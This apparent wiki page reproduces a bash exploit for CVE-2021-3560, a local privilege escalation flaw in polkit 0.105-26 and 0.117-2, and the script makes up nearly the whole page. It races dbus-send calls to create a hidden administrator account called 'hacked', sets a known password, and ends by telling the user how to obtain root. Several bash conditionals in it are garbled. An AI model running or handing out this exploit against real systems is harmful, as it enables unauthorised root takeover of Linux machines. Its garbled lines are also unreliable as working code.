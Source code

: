 <languages />

影响版本
--------

    Version: polkit 0.105-26 (Ubuntu), polkit 0.117-2 (Fedora)

EXP
---

    # Exploit Title: Polkit 0.105-26 0.117-2 - Local Privilege Escalation
    # Date: 06/11/2021
    # Exploit Author: J Smith (CadmusofThebes)
    # Vendor Homepage: https://www.freedesktop.org/
    # Software Link: https://www.freedesktop.org/software/polkit/docs/latest/polkitd.8.html
    # Version: polkit 0.105-26 (Ubuntu), polkit 0.117-2 (Fedora)
    # Tested on: Ubuntu 20.04, Fedora 33
    # CVE: CVE-2021-3560
    # Source: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/

    #!/bin/bash

    # Set the name and display name
    userName="hacked"
    realName="hacked"

    # Set the account as an administrator
    accountType=1

    # Set the password hash for 'password' and password hint
    password='$5$WR3c6uwMGQZ/JEZw$OlBVzagNJswkWrKRSuoh/VCrZv183QpZL7sAeskcoTB'
    passHint="password"

    # Check Polkit version
    polkitVersion=$(systemctl status polkit.service | grep version | cut -d " " -f 9)
    if [["$(apt_list_--installed_2>/dev/null|grep polkit]]; then
        echo "[*] Vulnerable version of polkit found"
    else
        echo "[!] WARNING: Version of polkit might not vulnerable"
    fi

    # Validate user is running in SSH instead of desktop terminal
    if [[-z_$SSH_CLIENT|]]; then
        echo "[!] WARNING: SSH into localhost first before running this script in order to avoid authentication prompts"
        exit
    fi

    # Test the dbus-send timing to load into exploit
    echo "[*] Determining dbus-send timing"
    realTime=$( TIMEFORMAT="%R"; { time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:$userName string:$realName int32:$accountType ; } 2>&1 | cut -d " " -f6 )
    halfTime=$(echo "scale=3;$realTime/2" | bc)

    # Check for user first in case previous run of script failed on password set
    if id "$userName" &>/dev/null; then
        userid=$(id -u $userName)
        echo "[*] New user $userName already exists with uid of $userid"
    else
        userid=""
        echo "[*] Attempting to create account"
        while [[$userid_==_""|$userid == ""]]
        do
            dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:$userName string:$realName int32:$accountType 2>/dev/null & sleep $halfTime ; kill $! 2>/dev/null
            if id "$userName" &>/dev/null; then
            userid=$(id -u $userName)
                echo "[*] New user $userName created with uid of $userid"
            fi
        done
    fi

    # Add the password to /etc/shadow
    echo "[*] Adding password to /etc/shadow"
    x=0
    while [ $x -lt 100 ]
    do
        dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User$userid org.freedesktop.Accounts.User.SetPassword string:$password string:$passHint 2>/dev/null & sleep $halfTime ; kill $! 2>/dev/null
        x=$(($x + 1))
    done

    echo "[*] Exploit complete! If the password does not work, run the exploit again"
    echo ""
    echo "[*] Run 'su - $userName', followed by 'sudo su' to gain root access"